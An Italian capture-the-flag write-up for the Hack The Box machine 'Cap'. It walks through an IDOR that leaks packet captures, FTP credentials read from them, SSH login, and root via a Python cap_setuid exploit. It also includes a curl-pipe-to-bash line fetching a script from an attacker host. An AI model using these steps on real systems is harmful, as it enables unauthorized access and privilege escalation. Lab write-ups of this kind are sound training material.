 ### **Write-up HTB Machine "Cap"**

#### **1. Panoramica della Macchina**
- **Difficoltà**: Facile (Linux)
- **Servizi Principali**: HTTP (Network Capture Tool), FTP, SSH
- **Vulnerabilità Chiave**: IDOR → Credenziali in chiaro → Escalation privilegi via capability `CAP_SETUID`

#### **2. Riepilogo dell'Attacco**
1. **Enumeration**: Scansione con Nmap rivela porte aperte (21/FTP, 22/SSH, 80/HTTP).
2. **IDOR Exploit**: Manipolazione parametro ID per scaricare PCAP non autorizzati.
3. **Analisi PCAP**: Identificazione credenziali FTP/SSH in chiaro.
4. **Foothold**: Accesso SSH con credenziali rubate.
5. **Privilege Escalation**: Sfruttamento della capability `CAP_SETUID` assegnata a Python.

---

#### **3. Vulnerabilità IDOR: Dettagli Tecnici**
**Definizione**:  
L'Insecure Direct Object Reference (IDOR) permette a un utente di accedere a risorse non autorizzate manipolando identificatori (es: numeri progressivi).

**Esempio Pratico**:  
```
http://10.10.10.56/data/[ID]
```
Modificando `[ID]` (es: da 2 a 1 o 3), è possibile scaricare PCAP appartenenti ad altri utenti.

**Impatto**:  
- Esposizione credenziali FTP: `utente:password`
- Accesso a dati sensibili di rete

**Prevenzione**:  
- Validazione autorizzazioni lato server
- Utilizzo di UUID non sequenziali
- Crittografia del traffico (es: SFTP invece di FTP)

---

#### **4. Walkthrough dell'Exploit**

**Step 1: Scansione Iniziale**  
```bash
nmap -sV -Pn 10.10.10.56
```
**Risultati**:  
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1
80/tcp open  http    gunicorn
```

**Step 2: Scoperta IDOR**  
1. Visitare `http://10.10.10.56/data/2`
2. Modificare manualmente l'ID nell'URL:
   ```
   http://10.10.10.56/data/1 → PCAP di un altro utente
   ```

**Step 3: Analisi PCAP con Wireshark**  
- Filtro FTP: `ftp.request.command == "PASS"`
- Credenziali esposte:  
  ```
  USER: utente
  PASS: password123!
  ```

**Step 4: Accesso SSH**  
```bash
ssh utente@10.10.10.56
```

---

#### **5. Privilege Escalation (CAP_SETUID)**
**Identificazione della Vulnerability**:  
```bash
# Creazione di un server HTTP che serve il contenuto della directory corrente sulla macchina attaccante
# dove ho scaricato linpeas.sh
python -m http.server 80

# Esecuzione linPEAS
curl http://<IP_ATTACCANTE>/linpeas.sh | bash
```
**Finding Critico**:  
```
╔══════════╣ Capabilities
/usr/bin/python3.8 = cap_setuid+ep
```

**Exploit con Python**:  
```python
import os
os.setuid(0)  # Imposta UID a root (0)
os.system("/bin/bash")
```
**Risultato**:  
```
root@cap:/home/utente# id
uid=0(root) gid=1000(utente)
```

---

#### **6. Raccomandazioni di Sicurezza**
1. **FTP**: Sostituire con SFTP/FTPS
2. **IDOR**: Implementare controlli di autorizzazione
3. **Capabilities**: Rimuovere `CAP_SETUID` da Python
